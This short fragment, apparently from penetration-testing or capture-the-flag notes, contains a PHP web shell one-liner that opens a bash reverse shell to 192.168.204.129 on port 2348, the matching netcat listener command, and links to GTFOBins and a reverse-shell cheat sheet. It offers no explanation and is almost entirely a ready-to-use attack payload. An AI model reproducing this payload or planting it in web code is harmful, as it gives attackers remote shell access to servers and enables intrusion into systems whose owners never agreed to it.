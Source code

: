     <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.204.129/2348 0>&1'"); ?>

    sudo nc -lvnp 2348

https://gtfobins.github.io/

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet